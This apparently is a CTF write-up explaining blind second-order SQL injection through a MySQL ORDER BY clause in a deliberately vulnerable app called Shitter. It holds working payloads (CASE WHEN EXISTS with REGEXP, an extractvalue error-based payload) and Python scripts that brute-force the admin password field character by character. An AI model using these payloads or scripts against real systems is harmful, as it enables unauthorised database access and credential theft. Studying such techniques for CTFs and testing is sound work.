

Recently we had our first edition of the TMHC CTF Competition, and one of the challenges was called Shitter (a play on twitter). The challenge was based on a special case of SQL injection, and I thought it would be a good development topic for a post on the 0x00sec forums. I have included the intended method of exploitation, and some others that I found interesting, that may be useful in situations of bug bounties or pentests.
Introduction
Let me start by saying that this article assumes that you understand the fundamentals of SQL Injection, and you are comfortable with exploiting basic SQL Vulnerabilities.
If you have ever looked into the topic in depth enough, you will have realized that depending on where the injection point is in the query, the limitations may vary, and the difficulty of exploitation may increase.
In this post I will be talking about some of the independent research I have undergone over the past week, relating to Blind Second Order SQL Injections in ORDER BY clauses.
I am going to individually explain the parts of this vulnerability, and then demonstrate how I was able to develop a solution for each individual problem that Blind Second Order SQL Injections may present.
Blind SQL Injection:
Explanation
Blind SQL Injections are any SQL Injections where direct database output is not offered, so you are essentially trying to leak data “blindly”. An example of this could be a logging system, where they insert the logs into a table, and you never see the logs, or the commands output. A basic solution for this would be using the sleep() function that most, if not all DBMS’ have.
Explanation of solution
The sleep function causes the DBMS to not respond for a set amount of time, meaning that you can convert your query into some sort of a boolean query so the output is true or false, and if it is true, then make the DBMS sleep, due to the DBMS sleeping, the server response time will be longer, and you will be able to tell what the boolean SQL queries output was.
Example boolean sleep SQL Query
IF ([CONDITION]) THEN sleep(3); ELSE sleep(0); END IF; END;
In the example above, it checks whether the condition is true or false, and then depending on the conditions output, it will either sleep for 3 seconds, or 0 seconds.
Although, in our situation, instead of using sleep, we will be making the post order either be alphabetically ordered title or alphabetically ordered contents, so we can create a post called “A” with “Z” as the contents, and another post called “Z” with “A” as the contents.
Second Order SQL Injection:
Explanation
For the people who may not have heard of Second Order SQL Injections, here is a perfect explanation pulled directly from https://portswigger.net/kb/issues/00100210_sql-injection-second-order
Second-order SQL injection arises when user-supplied data is stored by the application and later incorporated into SQL queries in an unsafe way. To detect the vulnerability, it is normally necessary to submit suitable data in one location, and then use some other application function that processes the data in an unsafe way.
Due to second order SQL Injections not taking user input directly from the user, but instead storing it in another part of the database or backed (it could be stored in a cookie), it is generally harder to recognize and find in larger applications.
Injection point being the ORDER BY clause:
Explanation
SQL Query syntax is extremely specific, and not flexible enough for the usual SQL Injection payloads that make use of UNION to append data onto what the database already responds with.
Explanation of solution
After some research, I came to the conclusion* that if the injection point is directly after the ORDER BY clause (for example: SELECT * FROM users WHERE name = "test" ORDER BY USER-INPUT;) then you can make use of the CASE clause that exists in certain DBMS’, for my research I used MySQL as the DBMS of choice.
The technique I have managed to come up with for this explicit situation looks something like this:
(SELECT (CASE WHEN EXISTS(SELECT [column] FROM [table] WHERE [column] REGEXP "^.*" AND [FURTHER CONDITIONS]) THEN [One column name] ELSE [Another column name] END));
Here are some examples of testing this query on MySQL directly:
MariaDB [shitter]> SELECT post_title, post_content, post_creation_time FROM posts WHERE creator_id = 1 ORDER BY (SELECT (CASE WHEN EXISTS(SELECT password FROM users WHERE password REGEXP "^.*") THEN post_
creation_time ELSE post_content END));
+---------------+---------------------------------------------------+---------------------+
| post_title | post_content | post_creation_time |
+---------------+---------------------------------------------------+---------------------+
| From: chivato | Welcome to shitter! Visit /create to get started! | 2019-11-29 15:10:02 |
| test | tteetteet | 2019-11-29 15:10:15 |
+---------------+---------------------------------------------------+---------------------+
2 rows in set (0.00 sec)
MariaDB [shitter]> SELECT post_title, post_content, post_creation_time FROM posts WHERE creator_id = 1 ORDER BY (SELECT (CASE WHEN EXISTS(SELECT password FROM users WHERE password REGEXP "^x.*") THEN post
_creation_time ELSE post_content END));
+---------------+---------------------------------------------------+---------------------+
| post_title | post_content | post_creation_time |
+---------------+---------------------------------------------------+---------------------+
| test | tteetteet | 2019-11-29 15:10:15 |
| From: chivato | Welcome to shitter! Visit /create to get started! | 2019-11-29 15:10:02 |
+---------------+---------------------------------------------------+---------------------+
2 rows in set (0.00 sec)
As demonstrated above, when the regex that the password is compared to returns true, the posts are ordered by the post title (F is before t in the alphabet, so From: chivato is displayed before the test post). The opposite can also be seen in the next query, where the regex now checks if the password field entry starts with “x” (this has to be false since I am using md5 to hash my passwords, and there will never be an x in an md5 hash due to the hex encoding), due to this query being false, the posts are now ordered by post contents (t is before W in the alphabet, so the posts that have content starting with t are displayed before the ones that have contents starting with W).
Breakdown:
Now let’s break this query down, and explain each separate part of it, to facilitate the visualization of the situation / back-end processing, I have developed a vulnerable social media app (the Shitter webapp used in the CTF), where a user can create a post and then change the order of these posts (this is the injection point) in settings, where the order selected is inserted into the user’s server signed cookie, the contents of the “order” value in the cookie are then placed directly into a SQL query (inside the ORDER BY clause), finall being executed when the posts are being taken from the database (when a profile is being loaded up).
So, the initial SELECT() inserts the internal queries output into the end of the query, inside that parentesis, we have an EXIST(SELECT…), this exist converts the query to a boolean query, since it makes it so that, if there is an output for the select query in the center of the nested query, then the exist will output 1, if not, it will return 0, 1 being true, 0 being false.
This is where the CASE part comes in, if the EXIST part of the statement responds with 1, then the case will order by the first column specified, if not, it will order by the second column specified, so you can go to the page used to trigger the second order SQLi, and depending on the output order of the posts, you will know if the EXISTS returned 0 or 1.
Finally, the inside of the EXISTS() function is a normal query, that uses a REGEXP to bruteforce one character at a time (if it is a hash, then you only need a-f and 0-9, due to hex encoding on the ‘mainstream’ hashes). In our case we want to leak a flag, so I have developed the following script that bruteforces the REGEXP character by character using a set dictionary of basic alhpanumeric chars (a-zA-Z0-9).
Essentially, instead of using the sleep function (which would be much slower and would not work due to the situation of the injection point), we make use of the fact that we have control over the ORDER BY clause, and use this as our true / false identifier instead of the response time of the server.
Shitter solution:
Upon finding the injection point we see “post_creation_time asc”, which could only fit in the ORDER BY clause of a SQL Query, so we know where our injection is being inserted into, let’s see if it is vulnerable.
So we send the request to update the post order and add a ' on the end:

Now we try and trigger the SQL Query by loading a users posts:

Perfect, we get a sql error due to the unterminated string (this is due to the standalone ').
Now we can get to the actual injection, we know we control anything after the ORDER BY clause, so we control the posts order, I wonder if there is a way of using IF statements in MySQL, initially I came across this: http://www.mysqltutorial.org/mysql-if-statement/, although I was not able to get this to work, I believe this is due to the IF statement needing to either be at the start of the query, or in a set SQL procedure.
Then I remembered there being a similar “CASE” (https://www.w3schools.com/sql/func_mysql_case.asp) clause in MySQL that has a very similar functionality, if not identical to IF statements, which can be placed anywhere in a SQL query, so I tried it in my make-shift shitter database and boom! It works (after a while of fiddling with the statement).
MariaDB [shitter]> SELECT post_title, post_content, post_creation_time FROM posts WHERE creator_id = 2 ORDER BY (SELECT (CASE WHEN (1=1) THEN post_creation_time ELSE post_content END));
+------------+--------------+---------------------+
| post_title | post_content | post_creation_time |
+------------+--------------+---------------------+
| A | Z | 2019-12-17 13:21:20 |
| Z | A | 2019-12-17 13:21:25 |
+------------+--------------+---------------------+
2 rows in set (0.02 sec)
MariaDB [shitter]> SELECT post_title, post_content, post_creation_time FROM posts WHERE creator_id = 2 ORDER BY (SELECT (CASE WHEN (1=2) THEN post_creation_time ELSE post_content END));
+------------+--------------+---------------------+
| post_title | post_content | post_creation_time |
+------------+--------------+---------------------+
| Z | A | 2019-12-17 13:21:25 |
| A | Z | 2019-12-17 13:21:20 |
+------------+--------------+---------------------+
2 rows in set (0.01 sec)
MariaDB [shitter]>
So we now have a working injection, let’s try it on shitter, first we make the condition true:

And we trigger the SQL Injection:
Cool, so the posts were ordered by the post_title, and not the contents.
Now let’s demonstrate the other way around:

We have confirmed that depending on whether the output of the statement is 0 or 1, the post will either be ordered by title, or contents. We can combine this idea with EXISTS() (https://dev.mysql.com/doc/refman/8.0/en/exists-and-not-exists-subqueries.html) and REGEXP (https://www.w3resource.com/mysql/string-functions/mysql-regexp-function.php) to slowly leak the contents of the admin password field.
I developed a short script to automate this:
import requests, time
s = requests.Session()
dictionary = ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', 'A','B','C','D','E','F','G','H','I','J','K','L','M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','0','1','2','3','4','5','6','7','8','9','0','_','{','}']
URL = "http://gusralph.info:5000"
username = "demo"
password = "demo"
data = {'name' : username, 'password' : password}
r = s.post(url = URL + "/login", data = data)
final = ""
while True:
data = {'order' : 'post_creation_time ASC'}
r = s.post(url = URL + "/settings", data = data)
for x in dictionary:
data = {'order' : '(SELECT (CASE WHEN EXISTS(SELECT password FROM users WHERE password REGEXP "^' + str(final) + x + '.*" AND name = "admin") THEN post_content ELSE post_creation_time END)); -- -'}
r = s.post(url = URL + "/settings", data = data)
out = s.get(url = URL + "/profile/2")
if out.text.find('aaaaaaasdsd') < out.text.find('ZZZZ'):
final += x
print "Leaking contents of admin hash: " + final
break
else:
pass
This script manages to leak the contents of the admin password field:
chiv@Dungeon:~$ python solver.py
Leaking contents of admin hash: t
Leaking contents of admin hash: tm
Leaking contents of admin hash: tmh
Leaking contents of admin hash: tmhc
Leaking contents of admin hash: tmhc{
Leaking contents of admin hash: tmhc{b
Leaking contents of admin hash: tmhc{bl
Leaking contents of admin hash: tmhc{bl1
[...]
Leaking contents of admin hash: tmhc{bl1ndsqls3c0ndorderinje
Leaking contents of admin hash: tmhc{bl1ndsqls3c0ndorderinjec
Leaking contents of admin hash: tmhc{bl1ndsqls3c0ndorderinject
Leaking contents of admin hash: tmhc{bl1ndsqls3c0ndorderinjecti
Leaking contents of admin hash: tmhc{bl1ndsqls3c0ndorderinjecti0
Leaking contents of admin hash: tmhc{bl1ndsqls3c0ndorderinjecti0n
Leaking contents of admin hash: tmhc{bl1ndsqls3c0ndorderinjecti0n}
Although, the MySQL REGEXP function is not case sensitive (https://www.w3resource.com/mysql/string-functions/mysql-regexp-function.php), so I added the BINARY function after the REGEXP to create the final script:
import requests, time
s = requests.Session()
dictionary = ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', 'A','B','C','D','E','F','G','H','I','J','K','L','M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','0','1','2','3','4','5','6','7','8','9','0','_','{','}']
URL = "http://gusralph.info:5000"
username = "demo"
password = "demo"
data = {'name' : username, 'password' : password}
r = s.post(url = URL + "/login", data = data)
final = ""
while True:
data = {'order' : 'post_creation_time ASC'}
r = s.post(url = URL + "/settings", data = data)
for x in dictionary:
data = {'order' : '(SELECT (CASE WHEN EXISTS(SELECT password FROM users WHERE password REGEXP BINARY "^' + str(final) + x + '.*" AND name = "admin") THEN post_content ELSE post_creation_time END)); -- -'}
r = s.post(url = URL + "/settings", data = data)
out = s.get(url = URL + "/profile/2")
if out.text.find('aaaaaaasdsd') < out.text.find('ZZZZ'):
final += x
print "Leaking contents of admin hash: " + final
break
else:
pass
With the final result being:
chiv@Dungeon:~$ python solver.py
Leaking contents of admin hash: T
Leaking contents of admin hash: TM
Leaking contents of admin hash: TMH
Leaking contents of admin hash: TMHC
Leaking contents of admin hash: TMHC{
Leaking contents of admin hash: TMHC{B
[..]
Leaking contents of admin hash: TMHC{Bl1nDSQlS3c0ndorderINJect
Leaking contents of admin hash: TMHC{Bl1nDSQlS3c0ndorderINJecti
Leaking contents of admin hash: TMHC{Bl1nDSQlS3c0ndorderINJecti0
Leaking contents of admin hash: TMHC{Bl1nDSQlS3c0ndorderINJecti0n
Leaking contents of admin hash: TMHC{Bl1nDSQlS3c0ndorderINJecti0n}
Unintended methods of solving Shitter:
Alternative (kudos to Morph3 (https://twitter.com/melihkaanyldz)):
In the CTF I forgot to add a try: except: into the script to handle the python errors, which can sometimes be overly verbose. If I had added the try and except it would have just redirected to a /error page. Due to the overly verbose error messages, and the flask debug being set to True in my script, there was a certain payload that could be used, that caused the flask error message to actually display the queries output.
An example of what the output would look like is:
File "/home/chivato/.local/lib/python2.7/site-packages/pymysql/protocol.py", line 220, in check_error
err.raise_mysql_exception(self._data)
File "/home/chivato/.local/lib/python2.7/site-packages/pymysql/err.py", line 109, in raise_mysql_exception
raise errorclass(errno, errval)
InternalError: (1105, u"XPATH syntax error: '\nTMHC{Bl1nDSQlS3c0ndorderINJecti'")
-->
The query that breaks the challenge being:
1,extractvalue(0x0a,concat(0x0a,([SQL QUERY HERE])))#
Here is a script he developed to automate the process:
import requests
s = requests.Session()
url = "URL:PORT/"
data = {
"name":"USERNAME",
"password":"PASSWORD"
}
r = s.post(url+"login",data=data)
q = "select database()"
while q != "q":
data = {
"order" : "1,extractvalue(0x0a,concat(0x0a,({})))#".format(q)
}
r = s.post(url+"settings",data=data)
r = s.get(url+"profile/1")
print r.text
q = raw_input("~#:")
If you enjoyed the post, learnt something new, or have any feedback / improvements, make sure to follow me on Twitter (https://twitter.com/SecGus).
*If anyone has been able to successfully exfiltrate data via the ORDER BY clause in MySQL when the column name is hard-coded (like this SELECT * FROM users WHERE name = "example" ORDER BY name USER-INPUT;), I would love to know how, my DMs on here are always open, or you can reach me on twitter (see above), or via email at [email protected].

{kind=link}
{kind=link}